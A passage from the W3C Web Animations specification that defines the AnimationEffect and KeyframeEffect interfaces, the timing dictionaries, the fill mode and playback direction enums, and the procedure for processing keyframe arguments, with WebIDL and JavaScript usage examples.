     > **Issue:** The definition of being rendered [HTML] with regards to `display: contents` is still [under discussion](https://github.com/whatwg/html/issues/1837). For the purpose of this procedure, we assume that an element with `display: contents` that otherwise would have associated layout boxes (i.e. it is connected and not part of a `display: none` subtree) *is* being rendered.
  3. Let *inline style* be the result of getting the CSS declaration block corresponding to *target*’s style attribute. If *target* does not have a style attribute, let *inline style* be a new empty CSS declaration block with the owner node set to *target*.
  4. Let *targeted properties* be the set of physical longhand properties that are a target property for at least one animation effect associated with *animation* whose effect target is *target*.
  5. For each property, *property*, in *targeted properties*:

    1. Let *partialEffectStack* be a copy of the effect stack for *property* on *target*.
    2. If *animation*’s replace state is removed, add all animation effects associated with *animation* whose effect target is *target* and that include *property* as a target property to *partialEffectStack*.
    3. Remove from *partialEffectStack* any animation effects whose associated animation has a higher composite order than *animation*.
    4. Let *effect value* be the result of calculating the result of *partialEffectStack* for *property* using *target*’s computed style (see [§ 5.4.3 Calculating the result of an effect stack](#web-animations-1:calculating-the-result-of-an-effect-stack)) and setting the endpoint-inclusive active interval flag to true when calculating the animation effect phase (see [§ 4.6.6 Animation effect phases and states](#web-animations-1:animation-effect-phases-and-states)).
    5. Set a CSS declaration of *property* for *effect value* in *inline style*.
  6. Update style attribute for *inline style*.

##### 6.4.1. The `AnimationPlayState` enumeration {#web-animations-1:the-animationplaystate-enumeration}

```webidl
enum AnimationPlayState { "idle", "running", "paused", "finished" };
```

****`idle`****

: Corresponds to the idle play state.

****`running`****

: Corresponds to the running play state.

****`paused`****

: Corresponds to the paused play state.

****`finished`****

: Corresponds to the finished play state.

##### 6.4.2. The `AnimationReplaceState` enumeration {#web-animations-1:the-animationreplacestate-enumeration}

```webidl
enum AnimationReplaceState { "active", "removed", "persisted" };
```

****`active`****

: Corresponds to the active replace state.

****`removed`****

: Corresponds to the removed replace state.

****`persisted`****

: Corresponds to the persisted replace state.

#### 6.5. The `AnimationEffect` interface {#web-animations-1:the-animationeffect-interface}

Animation effects are represented in the Web Animations API by the abstract `AnimationEffect` interface.

```webidl
[Exposed=Window]
interface AnimationEffect {
    EffectTiming         getTiming();
    ComputedEffectTiming getComputedTiming();
    undefined            updateTiming(optional OptionalEffectTiming timing = {});
};
```

> **Note:** In future, we may expose `any onupdate (double? progress, double currentIteration, Animatable? target, any underlyingValue)` so that the animation effects can be driven apart from the timing model.

****`getTiming()`****

: Returns the specified timing properties for this animation effect.

  For the correspondence between the members of the returned `EffectTiming` object and properties of the [timing model](#web-animations-1:timing-model), see the `EffectTiming` interface.

****`getComputedTiming()`****

: Returns the calculated timing properties for this animation effect.

  Although some of the attributes of the object returned by `getTiming()` and `getComputedTiming()` are common, their values can differ in the following ways:

  - `duration` – while `getTiming()` can return the string `auto`, `getComputedTiming()` must return a number corresponding to the calculated value of the iteration duration as defined in the description of the `duration` member of the `EffectTiming` interface.

    In this level of the specification, that simply means that an `auto` value is replaced by zero.
  - `fill` – likewise, while `getTiming()` can return the string `auto`, `getComputedTiming()` must return the specific `FillMode` used for timing calculations as defined in the description of the `fill` member of the `EffectTiming` interface.

    In this level of the specification, that simply means that an `auto` value is replaced by the `none` `FillMode`.

  > **Note:** It is likely that other timing members could be extended in future to include `auto`-like values. When performing timing calculations, authors are encouraged to use `getComputedTiming()` where possible to avoid incompatibility should the range or type of allowed specified values be changed.

  In addition to possible differences in the values returned, compared to `getTiming()`, `getComputedTiming()` returns additional timing information as defined by the `ComputedEffectTiming` dictionary.

****`updateTiming(timing)`****

: Updates the specified timing properties of this animation effect by performing the procedure to update the timing properties of an animation effect passing the `timing` parameter as *input*.

  ****`optional OptionalEffectTiming timing`****

  : The timing properties to update. The timing properties corresponding to any members that do not exist on `timing` will *not* be modified.

  **`TypeError`**

  : Raised if any of the following conditions applies:

    - `iterationStart` is negative;
    - `iterations` is negative or `NaN`;
    - `duration` is negative, `NaN`, or a string other than `auto`; or
    - `easing` cannot be parsed as an `<easing-function>`.

> **Issue:** The `remove()` method can be used to remove an effect from either its parent group or animation. Should we keep it in level 1 and define it simply as removing the animation effect from its animation? [[Issue #2082]](https://github.com/w3c/csswg-drafts/issues/2082)

##### 6.5.1. The `EffectTiming` and `OptionalEffectTiming` dictionaries {#web-animations-1:the-effecttiming-dictionaries}

The **`EffectTiming`** dictionary represents the timing properties of an `AnimationEffect`.

The **`OptionalEffectTiming`** dictionary is a variant of the `EffectTiming` dictionary that allows some members to not exist. This is used by the `updateTiming()` method of the `AnimationEffect` interface to perform a delta update to the timing properties of an animation effect.

```webidl
dictionary EffectTiming {
  double                             delay = 0;
  double                             endDelay = 0;
  FillMode                           fill = "auto";
  double                             iterationStart = 0.0;
  unrestricted double                iterations = 1.0;
  (unrestricted double or DOMString) duration = "auto";
  PlaybackDirection                  direction = "normal";
  DOMString                          easing = "linear";
};

dictionary OptionalEffectTiming {
  double                             delay;
  double                             endDelay;
  FillMode                           fill;
  double                             iterationStart;
  unrestricted double                iterations;
  (unrestricted double or DOMString) duration;
  PlaybackDirection                  direction;
  DOMString                          easing;
};
```

****`delay`**,  of type double, defaulting to `0`**

: The start delay, which represents the number of milliseconds from the start time of the associated animation to the start of the active interval.

****`endDelay`**,  of type double, defaulting to `0`**

: The end delay, which represents the number of milliseconds from the end of an animation effect’s active interval until its end time.

****`fill`**,  of type FillMode, defaulting to `"auto"`**

: The fill mode, which defines the behavior of the animation effect outside its active interval.

  When performing timing calculations the special string value `auto` is expanded to none.

  > **Note:** The `auto` value exists as a forwards-compatibility measure since future types of animation effects are expected to produce a different computed fill mode.

  **As described in [§ 4.6.8 Fill behavior and fill modes](#web-animations-1:fill-behavior), authors are discouraged from using indefinitely filling animations.**

****`iterationStart`**,  of type double, defaulting to `0.0`**

: The animation effect’s iteration start property, which is a finite real number greater than or equal to zero representing the iteration index at which the animation effect begins and its progress through that iteration.

  For example, a value of 0.5 indicates that the animation effect begins halfway through its first iteration. A value of 1.2 indicates the animation effect begins 20% of the way through its second iteration.

  > **Note:** that the value of `iterations` is effectively *added* to the `iterationStart` such that an animation effect with an `iterationStart` of "0.5" and `iterations` of "2" will still repeat twice. However it will begin and end halfway through its iteration interval.
  >
  > `iterationStart` values greater than or equal to 1 are typically only useful in combination with an animation effect that has an iteration composite operation of accumulate or when the current iteration index is otherwise significant.

****`iterations`**,  of type unrestricted double, defaulting to `1.0`**

: The animation effect’s iteration count property which is a real number greater than or equal to zero (including positive infinity) representing the number of times to the animation effect repeats.

  This can be set to `+Infinity` to cause the animation effect to repeat forever (unless the duration of the effect is zero, in which case it will finish immediately).

****`duration`**,  of type `(unrestricted double or DOMString)`, defaulting to `"auto"`**

: The iteration duration, which is a real number greater than or equal to zero (including positive infinity) representing the time taken to complete a single iteration of the animation effect.

  In this level of this specification, the string value `auto` is treated as the value zero for the purpose of timing model calculations and for the result of the `duration` member returned from `getComputedTiming()`. If the author specifies the `auto` value, user agents must, however, return `auto` for the `duration` member returned from `getTiming()`.

  > **Note:** This is a forwards-compatibility measure since a future level of this specification is expected to introduce group effects where the `auto` value expands to include the duration of the child effects.

****`direction`**,  of type PlaybackDirection, defaulting to `"normal"`**

: The playback direction of the animation effect, which defines whether playback proceeds forwards, backwards, or alternates on each iteration.

****`easing`**,  of type DOMString, defaulting to `"linear"`**

: The easing function used to scale the time to produce easing effects.

  The syntax of the string is defined by the `<easing-function>` production [CSS-EASING-1].

##### 6.5.2. The `FillMode` enumeration {#web-animations-1:the-fillmode-enumeration}

```webidl
enum FillMode { "none", "forwards", "backwards", "both", "auto" };
```

Represents an animation effect’s fill mode.

****`none`****

: No fill. (Fill mode none.)

****`forwards`****

: Fill forwards.

****`backwards`****

: Fill backwards.

****`both`****

: Fill both backwards and forwards.

****`auto`****

: No fill. In a subsequent level of this specification, this may produce different behavior for other types of animation effects.

##### 6.5.3. The `PlaybackDirection` enumeration {#web-animations-1:the-playbackdirection-enumeration}

```webidl
enum PlaybackDirection { "normal", "reverse", "alternate", "alternate-reverse" };
```

****`normal`****

: All iterations are played as specified.

****`reverse`****

: All iterations are played in the reverse direction from the order they are specified.

****`alternate`****

: Even iterations are played as specified, odd iterations are played in the reverse direction from the order they are specified.

****`alternate-reverse`****

: Even iterations are played in the reverse direction from the order they are specified, odd iterations are played as specified.

##### 6.5.4. Updating the timing of an `AnimationEffect` {#web-animations-1:updating-animationeffect-timing}

To **update the timing properties of an animation effect**, *effect*, from an `EffectTiming` or `OptionalEffectTiming` object, *input*, perform the following steps:

1. If the `iterationStart` member of *input* exists and is less than zero, throw a `TypeError` and abort this procedure.

   > **Note:** The reason for using a `TypeError` rather than a `RangeError` is to mirror the behavior of WebIDL’s [EnforceRange] annotation should that annotation be able to be used with floating-point values in the future.
2. If the `iterations` member of *input* exists, and is less than zero or is the value `NaN`, throw a `TypeError` and abort this procedure.
3. If the `duration` member of *input* exists, and is less than zero, is the value `NaN`, or is a string other than the lowercase `auto`, throw a `TypeError` and abort this procedure.
4. If the `easing` member of *input* exists but cannot be parsed using the `<easing-function>` production [CSS-EASING-1], throw a `TypeError` and abort this procedure.
5. Assign each member that exists in *input* to the corresponding timing property of *effect* as follows:

  - `delay` → start delay
  - `endDelay` → end delay
  - `fill` → fill mode
  - `iterationStart` → iteration start
  - `iterations` → iteration count
  - `duration` → iteration duration
  - `direction` → playback direction
  - `easing` → easing function
6. If *effect* is associated with an animation, run the procedure to update an animation’s finished state for its associated animation with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

##### 6.5.5. The `ComputedEffectTiming` dictionary {#web-animations-1:the-computedeffecttiming-dictionary}

Timing properties calculated by the timing model are exposed using `ComputedEffectTiming` dictionary objects.

```webidl
dictionary ComputedEffectTiming : EffectTiming {
  unrestricted double  endTime;
  unrestricted double  activeDuration;
  double?              localTime;
  double?              progress;
  unrestricted double? currentIteration;
};
```

****`endTime`**,  of type unrestricted double**

: The end time of the animation effect expressed in milliseconds since zero local time (that is, since the associated animation’s start time if this animation effect is associated with an animation). This corresponds to the end of the animation effect’s active interval plus any end delay.

****`activeDuration`**,  of type unrestricted double**

: The active duration of this animation effect.

****`localTime`**,  of type double, nullable**

: The local time of this animation effect.

  This will be `null` if this animation effect is not associated with an animation.

****`progress`**,  of type double, nullable**

: The current iteration progress of this animation effect.

****`currentIteration`**,  of type unrestricted double, nullable**

: The current iteration index beginning with zero for the first iteration.

  In most cases this will be a (positive) integer. However, for a zero-duration animation that repeats infinite times, the value will be positive `Infinity`.

  As with unresolved times, an unresolved iteration index is represented by a `null` value.

#### 6.6. The `KeyframeEffect` interface {#web-animations-1:the-keyframeeffect-interface}

Keyframe effects are represented by the **`KeyframeEffect`** interface.

```webidl
[Exposed=Window]
interface KeyframeEffect : AnimationEffect {
  constructor(Element?       target,
              object?        keyframes,
              optional (unrestricted double or KeyframeEffectOptions) options = {});
  constructor(KeyframeEffect source);
  attribute Element?           target;
  attribute CSSOMString?       pseudoElement;
  attribute CompositeOperation composite;
  sequence<object> getKeyframes();
  undefined        setKeyframes(object? keyframes);
};
```

****`KeyframeEffect (target, keyframes, options)`****

: Creates a new `KeyframeEffect` object using the following procedure:

  1. Create a new `KeyframeEffect` object, *effect*.
  2. Set the target element of *effect* to *target*.
  3. Set the target pseudo-selector to the result corresponding to the first matching condition below:

     **If *options* is a `KeyframeEffectOptions` object with a `pseudoElement` property,**

     : Set the target pseudo-selector to the value of the `pseudoElement` property.

    When assigning this property, the error-handling defined for the `pseudoElement` setter on the interface is applied. If the setter requires an exception to be thrown, this procedure must throw the same exception and abort all further steps.

     **Otherwise,**

     : Set the target pseudo-selector to `null`.
  4. Let *timing input* be the result corresponding to the first matching condition below:

     **If *options* is a `KeyframeEffectOptions` object,**

     : Let *timing input* be *options*.

     **Otherwise (if *options* is a `double`),**

     : Let *timing input* be a new `EffectTiming` object with all members set to their default values and `duration` set to *options*.
  5. Call the procedure to update the timing properties of an animation effect of *effect* from *timing input*.

     If that procedure causes an exception to be thrown, propagate the exception and abort this procedure.
  6. If *options* is a `KeyframeEffectOptions` object, assign the `composite` property of *effect* to the corresponding value from *options*.

     When assigning this property, the error-handling defined for the corresponding setter on the `KeyframeEffect` interface is applied. If the setter requires an exception to be thrown for the value specified by *options*, this procedure must throw the same exception and abort all further steps.
  7. Initialize the set of keyframes by performing the procedure defined for `setKeyframes()` passing *keyframes* as the input.

  ****`Element? target`****

  : The target element. This may be `null` for animations that do not target a specific element.

  ****`object? keyframes`****

  : The set of keyframes to use. The format and processing of this argument is defined in [§ 6.6.3 Processing a keyframes argument](#web-animations-1:processing-a-keyframes-argument).

  ****`optional KeyframeEffectOptions options`****

  : Either a number specifying the iteration duration of the effect, or a collection of properties specifying the timing and behavior of the effect.

  Examples of the usage of this constructor are given in [§ 6.6.1 Creating a new KeyframeEffect object](#web-animations-1:creating-a-new-keyframeeffect-object).

****`KeyframeEffect (source)`****

: Creates a new `KeyframeEffect` object with the same properties as `source` using the following procedure:

  1. Create a new `KeyframeEffect` object, *effect*.
  2. Set the following properties of *effect* using the corresponding values of *source*:

    - effect target,
    - keyframes,
    - composite operation, and
    - all specified timing properties:

      - start delay,
      - end delay,
      - fill mode,
      - iteration start,
      - iteration count,
      - iteration duration,
      - playback direction, and
      - easing function.

     > **Note:** Unlike the `KeyframeEffect(target, keyframes, options)` constructor, we do not need to re-throw exceptions since the timing properties specified on *source* can be assumed to be valid.

  ****`KeyframeEffect source`****

  : The keyframe effect from which to copy the properties that define the new keyframe effect.

****`target`**,  of type Element, nullable**

: The target element being animated by this object (either the effect target if it is an `Element` or its originating element if it is a pseudo-element). This may be `null` for animations that do not target a specific element such as an animation that produces a sound using an audio API.

****`pseudoElement`**,  of type CSSOMString, nullable**

: The target pseudo-selector. `null` if this effect has no effect target or if the effect target is an element (i.e. not a pseudo-element). When the effect target is a pseudo-element, this specifies the pseudo-element selector (e.g. `::before`).

  On setting, sets the target pseudo-selector of the animation effect to the result of **`pseudo-element parsing`** on the provided value, defined as the following:

  1. Given the value *value*, perform the following steps:
  2. If *value* is not `null` and is an invalid `<pseudo-element-selector>`,

    1. Throw a `DOMException` with error name "`SyntaxError`".
    2. Abort.

       > **Note:** In effect, this means that if the result of this algorithm is used to set a variable, then that variable remains unchanged.

     > **Note:** Invalid in this context follows the definition of an invalid selector defined in [SELECTORS-4] such that syntactically invalid pseudo-elements as well as pseudo-elements for which the user agent has no usable level of support are both deemed invalid.
  3. If *value* is one of the legacy Selectors Level 2 single-colon selectors (':before', ':after', ':first-letter', or ':first-line'), then return the equivalent two-colon selector (e.g. '::before').
  4. Otherwise, return *value*.

****`composite`**,  of type CompositeOperation**

: The composite operation used to composite this keyframe effect with the effect stack, as specified by one of the `CompositeOperation` enumeration values.

  On setting, sets the composite operation property of this animation effect to the provided value.

****`sequence<object> getKeyframes()`****

: Returns the keyframes that make up this effect along with their computed keyframe offsets.

  *This section is non-normative*

  The result of this method is a sequence of objects of the following format:

  ```
  dictionary ComputedKeyframe {
    // ... property-value pairs ...
    // i.e. DOMString propertyName
    double?                  offset = null;
    double                   computedOffset;
    DOMString                easing = "linear";
    CompositeOperationOrAuto composite = "auto";
  };
  ```

  The meaning and values of each member is as follows:

  **`offset`**

  : The keyframe offset of the keyframe specified as a number between 0.0 and 1.0 inclusive, or `null`.

    This will be `null` if the keyframe is to be automatically spaced between adjacent keyframes.

  **`computedOffset`**

  : The computed keyframe offset for this keyframe calculated as part of running the compute missing keyframe offsets procedure.

    Unlike the `offset` member, the `computedOffset` is never `null`.

  **`easing`**

  : The easing function used to transform the progress of time from this keyframe until the next keyframe in the series.

  **`composite`**

  : The keyframe-specific composite operation used to combine the values specified in this keyframe with the underlying value.

    This member will be `auto` if the composite operation specified on the keyframe effect is being used.

  Since keyframes are represented by a partially open-ended dictionary type that is not currently able to be expressed with WebIDL, the procedure used to prepare the result of this method is defined in prose below:

  1. Let *result* be an empty sequence of objects.
  2. Let *keyframes* be one of the following:

     **If this keyframe effect is associated with a `CSSAnimation`, and its keyframes have not been replaced by a successful call to `setKeyframes()`,**

     : the computed keyframes for this keyframe effect.

     **Otherwise,**

     : the result of applying the procedure compute missing keyframe offsets to the keyframes for this keyframe effect.

     > **Note:** We return computed keyframes for CSS Animations because not all keyframes specified in CSS can be represented by a dictionary.
  3. For each *keyframe* in *keyframes* perform the following steps:

    1. Initialize a dictionary object, *output keyframe*, using the following definition:

       ```webidl
       dictionary BaseComputedKeyframe {
       double?                  offset = null;
       double                   computedOffset;
       DOMString                easing = "linear";
       CompositeOperationOrAuto composite = "auto";
       };
       ```
    2. Set the `offset`, `computedOffset`, `easing`, and `composite` members of *output keyframe* to the respective keyframe offset, computed keyframe offset, keyframe-specific easing function, and keyframe-specific composite operation values of *keyframe*.
    3. For each animation property-value pair *declaration* in *keyframe*, perform the following steps:

      1. Let *property name* be the result of applying the animation property name to IDL attribute name algorithm to the property name of *declaration*.
      2. Let *IDL value* be the result of serializing the property value of *declaration* by passing *declaration* to the algorithm to serialize a CSS value [CSSOM].
      3. Let *value* be the result of converting *IDL value* to an ECMAScript String value.
      4. Call the [[DefineOwnProperty]] internal method on *output keyframe* with property name *property name*, Property Descriptor { [[Writable]]: true, [[Enumerable]]: true, [[Configurable]]: true, [[Value]]: *value* } and Boolean flag false.
    4. Append *output keyframe* to *result*.
  4. Return *result*.

****`void setKeyframes(object? keyframes)`****

: Replaces the set of keyframes that make up this effect.

  ****`object? keyframes`****

  : A series of keyframes whose format and processing is defined by [§ 6.6.3 Processing a keyframes argument](#web-animations-1:processing-a-keyframes-argument).

    This effect’s set of keyframes is replaced with the result of performing the procedure to process a keyframes argument. If that procedure throws an exception, this effect’s keyframes are not modified.

  **`TypeError`**

  : Raised if an iterable yields a value other than `undefined`, `null`, or an object; if the keyframes are not loosely sorted by offset; if a non-null keyframe offset is outside the range [0, 1]; or if an easing cannot be parsed as an `<easing-function>`.

##### 6.6.1. Creating a new `KeyframeEffect` object {#web-animations-1:creating-a-new-keyframeeffect-object}

*This section is non-normative*

The `KeyframeEffect` constructor offers a number of approaches to creating new `KeyframeEffect` objects.

At its simplest, a `KeyframeEffect` object that changes the "left" property of `elem` to 100px over three seconds can be constructed as follows:

> **Example:** ```
> var effect = new KeyframeEffect(elem, { left: '100px' }, 3000);
> ```

The second parameter, representing the list of keyframes, may specify multiple properties. (See [§ 6.6.3 Processing a keyframes argument](#web-animations-1:processing-a-keyframes-argument).)

> **Example:** ```
> // Specify multiple properties at once
> var effectA = new KeyframeEffect(elem, { left: '100px', top: '300px' }, 3000);
>
> // Specify multiple keyframes
> var effectB = new KeyframeEffect(elem, [ { left: '100px' }, { left: '300px' } ], 3000);
> ```

The third parameter, representing the animation’s timing, may simply be a number representing the iteration duration in milliseconds as above, or, to specify further timing properties such as the start delay, an `EffectTiming` object can be used, as follows:

> **Example:** ```
> var effect =
>   new KeyframeEffect(elem, { left: '100px' }, { duration: 3000, delay: 2000 });
> ```

If the duration is not specified, a value of zero is used. It is possible to create an animation that simply sets a property without any interpolation as follows:

> **Example:** ```
> var effect =
>   new KeyframeEffect(elem, { visibility: 'hidden' }, { fill: 'forwards' });
> ```

As described in [§ 4.6.8 Fill behavior and fill modes](#web-animations-1:fill-behavior) however, using indefinitely filling animations in this way is discouraged.

Having created a `KeyframeEffect`, it can be played by adding it to an `Animation` and then playing that animation. For simple effects, however, the [`Element.animate`](#web-animations-1:extensions-to-the-element-interface) shortcut is more convenient since it performs these steps automatically. For example,

> **Example:** ```
> elem.animate({ left: '100px' }, 3000);
> ```

##### 6.6.2. Property names and IDL names {#web-animations-1:property-name-conversion}

The **animation property name to IDL attribute name** algorithm for *property* is as follows:

1. If *property* follows the `<custom-property-name>` production, return *property*.
2. If *property* refers to the CSS `float` property, return the string "cssFloat".
3. If *property* refers to the CSS `offset` property, return the string "cssOffset".
4. Otherwise, return the result of applying the CSS property to IDL attribute algorithm [CSSOM] to *property*.

The **IDL attribute name to animation property name** algorithm for *attribute* is as follows:

1. If *attribute* conforms to the `<custom-property-name>` production, return *attribute*.
2. If *attribute* is the string "cssFloat", then return an animation property representing the CSS `float` property.
3. If *attribute* is the string "cssOffset", then return an animation property representing the CSS `offset` property.
4. Otherwise, return the result of applying the IDL attribute to CSS property algorithm [CSSOM] to *attribute*.

##### 6.6.3. Processing a `keyframes` argument {#web-animations-1:processing-a-keyframes-argument}

*This section is non-normative*

The following methods all accept a set of keyframes as an argument:

- the `KeyframeEffect(target, keyframes, options)` constructor,
- the `setKeyframes()` method on the `KeyframeEffect` interface,
- the `animate()` method of the `Animatable` interface mixin.

This argument can be specified in the one of two forms as illustrated below:

> **Example:** ```
> // The following two expressions produce the same result:
> elem.animate([ { color: 'blue' },
>                { color: 'green' },
>                { color: 'red' },
>                { color: 'yellow' } ], 2000);
> elem.animate({ color: [ 'blue', 'green', 'red', 'yellow' ] }, 2000);
>
> // Likewise, for a multi-property animation, the following two
> // expressions are equivalent:
> elem.animate([ { color: 'blue', left: '0px' },
>                { color: 'green', left: '-20px' },
>                { color: 'red', left: '100px' },
>                { color: 'yellow', left: '50px'} ], 2000);
> elem.animate({ color: [ 'blue', 'green', 'red', 'yellow' ],
>                left: [ '0px', '-20px', '100px', '50px' ] }, 2000);
>
> // Incidentally, the following three expressions are all equivalent:
> elem.animate([ { color: 'red' } ], 1000);
> elem.animate({ color: [ 'red' ] }, 1000);
> elem.animate({ color: 'red' }, 1000);
> ```

The first form (the array-form) consists of an array of keyframes where each keyframe may specify at most one value per animation property. The second form (the object-form) consists of an object where each animation property may specify a single animation value or an array of animation values.

The first array-form is the canonical form, and is the form returned by the `getKeyframes()` method.

Keyframe offsets can be specified using either form as illustrated below:

> **Example:** ```
> // The keyframes without offsets will automatically have offsets computed
> // as 0 for the first keyframe, 0.65 for the middle keyframe, and 1 for the
> // final keyframe.
> elem.animate([ { color: 'blue' },
>                { color: 'green', offset: 0.5 },
>                { color: 'red' },
>                { color: 'yellow', offset: 0.8 },
>                { color: 'pink' } ], 2000);
>
> // The following produces the same result. Note that it is not necessary to
> // specify the last value: it will automatically be treated as 'null' and then
> // the automatic assignment will apply as with the previous case.
> elem.animate({ color: [ 'blue', 'green', 'red', 'yellow', 'pink' ],
>                offset: [ null, 0.5, null, 0.8 ] }, 2000);
> ```

Likewise easing functions and keyframe-specific composite operations may be specified in either form. The array-form allows specifying different values for each keyframe whilst for the object-form, the list of values will be repeated as needed until each keyframe has been assigned a value.

> **Example:** ```
> // Since easing functions apply _between_ keyframes, even if we specify a
> // an easing function on the last keyframe it will be ignored.
> elem.animate([ { color: 'blue', easing: 'ease-in' },
>                { color: 'green', easing: 'ease-out' },
>                { color: 'yellow' } ], 2000);
>
> // The following produces the same result.
> elem.animate({ color: [ 'blue', 'green', 'yellow' ],
>                easing: [ 'ease-in', 'ease-out' ] }, 2000);
>
> // The repeating behavior makes assigning the same value to all keyframes
> // simple:
> elem.animate({ color: [ 'blue', 'green', 'yellow' ],
>                easing: 'ease-in-out' }, 2000);
> ```

Note that the `easing` property in either form sets the *keyframe-specific easing function*. This is independent from the easing function that applies to the entire iteration duration of the keyframe effect as specified using a `KeyframeEffectOptions` object (or `KeyframeAnimationOptions` object when using the `animate()` method of the `Animatable` interface mixin).

In the following example, the two statements produce different results.

> **Example:** ```
> // Here, 'ease-in-out' is applied between each color value.
> elem.animate({ color: [ 'blue', 'green', 'yellow' ],
>                easing: 'ease-in-out' }, 2000);
>
> // However, in this case, 'ease-in-out' is applied across the whole span
> // of the animation, that is from 'blue' to 'yellow'.
> elem.animate({ color: [ 'blue', 'green', 'yellow' ] },
>              { duration: 2000, easing: 'ease-in-out' });
> ```

The type of the `keyframes` argument cannot be expressed in WebIDL since it relies on a partially-open dictionary type.

Conceptually, the type of this argument is equivalent to the following WebIDL-like definition:

```
dictionary Keyframe {
  // ... property-value pairs ...
  // i.e. DOMString propertyName
  double?                   offset = null;
  DOMString                 easing = "linear";
  CompositeOperationOrAuto  composite = "auto";
};

dictionary PropertyIndexedKeyframes {
  // ... property-value and property-valuelist pairs ...
  // i.e. (DOMString or sequence<DOMString>) propertyName
  (double? or sequence<double?>)                         offset = [];
  (DOMString or sequence<DOMString>)                     easing = [];
  (CompositeOperationOrAuto or sequence<CompositeOperationOrAuto>) composite = [];
};

typedef (sequence<Keyframe?> or PropertyIndexedKeyframes) KeyframeArgument;
```

The meaning and allowed values of each argument is as follows:

**`offset`**

: The keyframe offset of the keyframe specified as a number between 0.0 and 1.0 inclusive or `null`.

  A `null` value indicates that the keyframe should be automatically spaced between adjacent keyframes.

  Specifying an offset outside the range [0.0, 1.0] will cause a `TypeError` to be thrown.

  Keyframes that specify an offset must be provided in increasing order of offset. Adjacent and equal offsets, however, are permitted.

**`easing`**

: The easing function used to transform the progress of time from this keyframe until the next keyframe in the series.

  The syntax and error-handling associated with parsing this string is identical to that defined for the `easing` attribute of the `EffectTiming` interface.

**`composite`**

: The keyframe-specific composite operation used to combine the values specified in this keyframe with the underlying value.

  If `auto`, the composite operation specified on the keyframe effect will be used.

Since this type cannot be expressed in WebIDL, its processing is defined in prose following.

For each method that takes a `keyframes` argument, the procedure to process a keyframes argument is run on the input and the result of that procedure is retained.

First we define two supporting definitions:

The instruction **check the completion record** of *result*, where *result* is a completion record from calling an ECMAScript operation, is equivalent to the following steps:

1. If *result* is an abrupt completion, throw the exception contained in the [[value]] field of *result* and abort the procedure.

   > **Issue:** What should we do if the [[type]] is break, continue, or return? Can it be?
2. Replace *result* with the value contained in the [[value]] field of *result*.

The procedure to **process a keyframe-like object** takes two arguments:

- an ECMAScript object, `null`, or `undefined`, *keyframe input*, and
- an *allow lists* boolean flag

and returns a map from either property names to DOMString values if *allow lists* is false, or from property names to sequences of DOMString values otherwise, using the following procedure:

1. Run the procedure to convert an ECMAScript value to a dictionary type [WEBIDL] with *keyframe input* as the ECMAScript value, and the dictionary type depending on the value of the *allow lists* flag as follows:

   **If *allow lists* is true,**

   : Use the following dictionary type:

  ```webidl
  dictionary BasePropertyIndexedKeyframe {
    (double? or sequence<double?>)                         offset = [];
    (DOMString or sequence<DOMString>)                     easing = [];
    (CompositeOperationOrAuto or sequence<CompositeOperationOrAuto>) composite = [];
  };
  ```

   **Otherwise,**

   : Use the following dictionary type:

  ```webidl
  dictionary BaseKeyframe {
    double?                  offset = null;
    DOMString                easing = "linear";
    CompositeOperationOrAuto composite = "auto";
  };
  ```

   Store the result of this procedure as *keyframe output*.
2. If *keyframe input* is `null` or `undefined`, return *keyframe output*.
3. Build up a list of *animatable properties* as follows:

  1. Let *animatable properties* be a list of property names (including shorthand properties that have longhand sub-properties that are animatable) that can be animated by the UA.
  2. Convert each property name in *animatable properties* to the equivalent IDL attribute by applying the animation property name to IDL attribute name algorithm.
4. Let *input properties* be the result of calling the EnumerableOwnNames operation with *keyframe input* as the object.
5. Make up a new list *animation properties* that consists of all of the properties that are in *both* *input properties* and *animatable properties*, *or* which are in *input properties* and conform to the `<custom-property-name>` production.
6. Sort *animation properties* in ascending order by the Unicode codepoints that define each property name.
7. For each *property name* in *animation properties*:

  1. Let *raw value* be the result of calling the [[Get]] internal method on *keyframe input*, with *property name* as the property key and *keyframe input* as the receiver.
  2. Check the completion record of *raw value*.
  3. Convert *raw value* to a DOMString or to a sequence of DOMStrings *property values* as follows:

     **If *allow lists* is true,**

     : Let *property values* be the result of converting *raw value* to IDL type `(DOMString or sequence<DOMString>)` using the procedures defined for converting an ECMAScript value to an IDL value [WEBIDL].

  If *property values* is a single DOMString, replace *property values* with a sequence of DOMStrings with the original value of *property values* as the only element.

     **Otherwise,**

     : Let *property values* be the result of converting *raw value* to a DOMString using the procedure for converting an ECMAScript value to a DOMString [WEBIDL].
  4. Calculate the *normalized property name* as the result of applying the IDL attribute name to animation property name algorithm to *property name*.
  5. Add a property to *keyframe output* with *normalized property name* as the property name, and *property values* as the property value.
8. Return *keyframe output*.

The procedure to **process a keyframes argument** takes a nullable ECMAScript object, *object*, as input, and returns a sequence of keyframes using the following procedure:

1. If *object* is `null`, return an empty sequence of keyframes.
2. Let *processed keyframes* be an empty sequence of keyframes.
3. Let *method* be the result of GetMethod(*object*, @@iterator).
4. Check the completion record of *method*.
5. Perform the steps corresponding to the first matching condition below:

   **If *method* is not undefined,**

   : 1. Let *iter* be GetIterator(*object*, *method*).
  2. Check the completion record of *iter*.
  3. Repeat:

    1. Let *next* be IteratorStep(*iter*).
    2. Check the completion record of *next*.
    3. If *next* is false abort this loop.
    4. Let *nextItem* be IteratorValue(next).
    5. Check the completion record of *nextItem*.
    6. If Type(*nextItem*) is not `Undefined`, `Null` or `Object`, then throw a `TypeError` and abort these steps.
    7. Append to *processed keyframes* the result of running the procedure to process a keyframe-like object passing *nextItem* as the *keyframe input* with the *allow lists* flag set to false.

   **Otherwise,**

   : 1. Let *property-indexed keyframe* be the result of running the procedure to process a keyframe-like object passing *object* as the *keyframe input* with the *allow lists* flag set to true.
  2. For each member, *m*, in *property-indexed keyframe*, perform the following steps:

    1. Let *property name* be the key for *m*.
    2. If *property name* is "composite", "easing", or "offset", skip the remaining steps in this loop and continue from the next member in *property-indexed keyframe* after *m*.
    3. Let *property values* be the value for *m*.
    4. Let *property keyframes* be an empty sequence of keyframes.
    5. For each value, *v*, in *property values*, perform the following steps:

      1. Let *k* be a new keyframe with a `null` keyframe offset.
      2. Add the property-value pair, *property name* → *v*, to *k*.
      3. Append *k* to *property keyframes*.
    6. Apply the procedure to compute missing keyframe offsets to *property keyframes*.
    7. Add keyframes in *property keyframes* to *processed keyframes*.
  3. Sort *processed keyframes* by the computed keyframe offset of each keyframe in increasing order.
  4. Merge adjacent keyframes in *processed keyframes* when they have equal computed keyframe offsets.
  5. Let *offsets* be a sequence of nullable `double` values assigned based on the type of the `offset` member of the *property-indexed keyframe* as follows:

